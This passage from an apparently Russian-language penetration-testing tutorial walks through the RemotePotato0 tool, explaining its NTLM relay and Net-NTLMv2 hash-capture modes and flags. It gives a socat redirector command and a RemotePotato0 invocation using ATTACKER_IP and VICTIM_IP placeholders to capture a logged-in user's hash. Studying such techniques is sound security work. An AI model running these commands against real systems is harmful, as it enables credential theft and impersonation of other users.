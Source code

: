 Загрузка и распаковка RemotePotato0
{:.quote}

Как можно видеть из help-а, в нашем распоряжении несколько режимов атаки: можно либо отправить аутентификацию на relay-сервер для ее перенаправления на другой эндпоинт (режим 0, по умолчанию), либо получить значение хеша Net-NTLMv2 для его офлайн-перебора (режим 2). Режимы 1 и 3 предназначены для триггера NTLM-аутентификации вручную, без «картошки», поэтому нам это не очень интересно.

Для разминки сперва попробуем режим 2:

* `-m` – режим атаки,
* `-x` – IP-адрес TCP-редиректора, который отзеркалит OXID-резолв обратно на машину-жертву на порт, указанный в опции `-p` (если бы я использовал Windows Server 2012, можно было бы обойтись без этой опции, т. к. на нем нет фиксов по запрету резолва OXID-запросов через нестандартные порты),
* `-p` – порт фейкового локального OXID-резолвера, куда будет отзеркален OXID-запрос машиной атакующего,
* `-s` – номер сессии пользователя, которого мы хотим олицетворить.

```
~$ sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:<VICTIM_IP>:9998
PS > .\RemotePotato0.exe -m 2 -x <ATTACKER_IP> -p 9998 -s <SESSION_ID>
```

[![Запуск RemotePotato0 в режиме сбора хешей](/assets/images/remote-potato-0/remotepotato0-hashes.png)](/assets/images/remote-potato-0/remotepotato0-hashes.png)
{:.center-image}
